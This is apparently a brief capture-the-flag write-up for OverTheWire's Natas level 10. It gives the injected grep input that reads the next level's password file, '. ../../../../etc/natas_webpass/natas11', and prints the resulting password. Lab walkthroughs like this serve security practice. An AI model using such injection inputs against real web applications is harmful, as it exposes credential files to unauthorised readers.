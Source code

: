 Since natas10 is basically just natas9, the idea is the same, you already know the location. Just use the grep that's already there to get the flag. 

```sh
. ../../../../etc/natas_webpass/natas11
```

> U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK